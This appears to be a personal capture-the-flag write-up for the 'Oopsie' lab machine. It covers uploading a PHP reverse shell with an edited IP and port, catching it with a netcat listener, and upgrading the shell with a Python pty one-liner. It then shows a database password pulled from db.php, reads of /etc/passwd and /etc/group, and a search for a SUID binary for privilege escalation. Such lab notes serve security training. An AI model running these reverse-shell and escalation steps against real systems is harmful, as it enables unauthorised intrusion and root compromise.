 # php revese shell
Located in `/usr/share/webshells/php/php-reverse-shell.php`

Change port and ip and then upload the file.
```bash
$ip = '@IP_Local';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Set up a netcat listener on the same port.
```bash
$ nc -lvnp 1234
```

In order to have a functional shell can execute this command:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Username is `www-data` and the machine is named `oopsie`.

Search in the directory `/var/www/html/xxx/` the folder `login`. There are 4 files in that folder. 

## admin.php
Inside the file there's a new id `86575` but no username related.

## db.php
In the first lines appears the username `robert` with a password `M3g4C0rpUs3r!` and the word `garage`.

```ad-question
Maybe ssh with robert user?
```

# cat /etc/xxx
## passwd
```bash
robert:x:1000:1000:robert:/home/robert:/bin/bash
```

## group
```bash
robert:x:1000:lxd
bugtracker:x:1001:robert
```


# SUID
Found a file with `find / -group bugtracker` that only members of `bugtracker` can execute. It has the SUID flag with root privileges.

```ad-info
SUID allows an alternate user to run an executable with the same permissions as the owner of the file instead of the permissions of the alternate user.
```